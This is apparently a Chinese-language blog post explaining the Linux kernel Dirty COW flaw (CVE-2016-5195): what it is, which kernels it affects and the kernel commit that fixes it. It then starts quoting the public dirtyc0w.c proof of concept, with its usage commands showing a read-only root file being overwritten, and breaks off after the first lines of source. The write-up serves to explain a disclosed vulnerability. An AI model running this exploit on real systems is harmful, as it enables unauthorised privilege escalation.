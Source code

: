 ```yaml
---
layout: post
title: CVE-2016-5195 | Dirty CoW
category: Sec
commentIssueId: 3
---
```


## CVE-2016-5195 DirtyCoW

### 简介

下面内容来自 360 安全客，链接在*参考*一节。

漏洞编号：CVE-2016-5195  
漏洞名称：脏牛（Dirty COW）  
漏洞危害：低权限用户利用该漏洞技术可以在全版本Linux系统上实现本地提权  
影响范围：Linux内核>=2.6.22（2007年发行）开始就受影响了，直到2016年10月18日才修复。

360 Vulpecker Team：Android 7.0最新的10月补丁安全级别的系统上测试过漏洞POC，确认 Android 受影响

**Linux内核的内存子系统在处理写时拷贝（Copy-on-Write)时存在条件竞争漏洞，导致可以破坏私有只读内存映射。一个低权限的本地用户能够利用此漏洞获取其他只读内存映射的写权限，有可能进一步导致提权漏洞。**

**如何修复**

Linux团队正在积极的修复此漏洞，可以通过系统更新到最新发行版修复此漏洞。软件开发人员也可以通过

https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/commit/？id=19be0eaffa3ac7d8eb6784ad9bdbc7d67ed8e619

重新编译Linux修复此漏洞。

### PoC及原理

内容来自 Github，详见参考链接

{% highlight c %}
/*
####################### dirtyc0w.c #######################
$ sudo -s
# echo this is not a test > foo
# chmod 0404 foo
$ ls -lah foo
-r-----r-- 1 root root 19 Oct 20 15:23 foo
$ cat foo
this is not a test
$ gcc -lpthread dirtyc0w.c -o dirtyc0w
$ ./dirtyc0w foo m00000000000000000
mmap 56123000
madvise 0
procselfmem 1800000000
$ cat foo
m00000000000000000
####################### dirtyc0w.c #######################
*/
#include <stdio.h>
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
 
void *map;